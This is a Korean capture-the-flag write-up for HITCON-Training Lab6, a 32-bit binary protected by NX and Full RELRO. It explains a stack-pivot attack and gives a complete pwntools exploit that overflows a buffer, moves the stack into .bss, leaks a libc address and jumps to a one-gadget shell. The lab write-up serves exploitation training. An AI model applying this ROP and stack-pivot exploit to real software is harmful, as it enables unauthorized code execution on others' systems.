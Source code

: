 ```yaml
---
title: "[HITCON-Training]Lab6"
date: 2019-11-17
tags: [hitcon]
categories: [HITCON-Training]
---
```


32비트 바이너리다.

```
migration: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.32, BuildID[sha1]=e65737a9201bfe28db6fe46f06d9428f5c814951, not stripped
```

보호기법은 Full RELRO, NX가 걸려있다.

```
[*] '/vagrant/ctfs/migration'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

메인은 그냥 입력을 받는데 ebp-0x28위치에 있어서 payload를 쓸 수 있는 공간이 크지 않다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [esp+0h] [ebp-28h]

  if ( count != 1337 )
    exit(1);
  ++count;
  setvbuf(_bss_start, 0, 2, 0);
  puts("Try your best :");
  return read(0, &buf, 64u);
}
```

stack pivot을 이용해서 풀었다.

sfp에 bss1을 씀으로 ebp 변경하고 read로 ret을 해서 입력을 받은 값이 bss1 영역에 들어간다. 그리고 leave-ret으로 다음 입력 받는 값을 ebp로 바꾼다. 그리고 그 다음 주소는 eip가 되고 그 주소로 jmp한다.

> exploit.py

```python
from pwn import *

context.arch = 'i386'
# context.log_level = 'debug'
e = ELF('./migration')
p = process('./migration')
libc = e.libc
bss1 = e.bss() + 0x100
bss2 = bss1 + 0x100
pr = 0x0804836d # pop ebx ; ret
leave_ret = 0x08048418

payload = 'A'*40
payload += p32(bss1) # sfp -> ebp
payload += p32(e.plt['read'])
payload += p32(leave_ret)
payload += p32(0)
payload += p32(bss1)
payload += p32(0x100)

p.sendafter(':',payload)

payload2 = p32(bss2) # ebp
payload2 += p32(e.plt['puts']) # eip -> jmp
payload2 += p32(pr)
payload2 += p32(e.got['puts'])
payload2 += p32(e.plt['read'])
payload2 += p32(leave_ret)
payload2 += p32(0)
payload2 += p32(bss2)
payload2 += p32(0x100)

p.sendline(payload2)
p.recvuntil('\n')

libc_base = u32(p.recv(4)) - libc.symbols['puts']
log.info('libc_base : ' + hex(libc_base))

payload3 = 'AAAA'
payload3 += p32(libc_base + 0x3ac5c) # oneshot

p.sendline(payload3)

p.interactive()
```